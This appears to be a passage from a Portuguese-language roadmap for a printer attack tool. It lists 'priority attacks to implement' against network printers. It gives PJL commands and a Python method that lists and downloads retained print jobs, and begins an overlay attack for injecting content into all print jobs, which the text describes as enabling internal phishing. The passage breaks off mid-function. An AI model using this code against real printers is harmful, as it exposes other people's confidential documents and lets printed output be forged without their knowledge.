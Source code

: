 
## 🔴 ATAQUES PRIORITÁRIOS PARA IMPLEMENTAR

### PRIORIDADE CRÍTICA (P0)

#### 1. Print Job Capture
**Impacto**: ALTO - Acesso a documentos sensíveis  
**Complexidade**: MÉDIA  
**PJL Commands**:
```
@PJL INFO JOBS
@PJL INFO JOBSPOOL
@PJL FSJOBLIST
@PJL FSDOWNLOAD NAME="0:/jobs/job001.ps"
```

**Implementação**:
```python
def do_capture(self, arg):
    """Capture and download retained print jobs"""
    output().info("Querying retained jobs...")
    
    # List jobs
    jobs = self.cmd("@PJL INFO JOBS")
    if not jobs:
        output().warning("No jobs found or command not supported")
        return
    
    print("Available jobs:")
    print(jobs)
    
    # List job files in filesystem
    job_files = self.cmd("@PJL FSDIRLIST NAME=\"0:/jobs\"")
    if job_files:
        print("\nJob files in filesystem:")
        print(job_files)
        
        # Download jobs if requested
        if arg == "download":
            # Download all jobs
            for job_file in parse_job_files(job_files):
                self.do_download(f"0:/jobs/{job_file}")
```

---

#### 2. Print Job Manipulation (Cross, Overlay, Replace)
**Impacto**: CRÍTICO - Manipulação de documentos, phishing interno  
**Complexidade**: ALTA  
**PJL Commands**: Requer injeção de PostScript/PCL em jobs

**Implementação**:
```python
def do_overlay(self, arg):
    """Overlay attack - add watermark/content to all print jobs"""
    if not arg:
        output().errmsg("Usage: overlay <eps_file>")
        return
    
    # Read overlay file (EPS format)
    overlay_data = file().read(arg)
    if not overlay_data:
        output().errmsg("Cannot read overlay file")
        return
    
```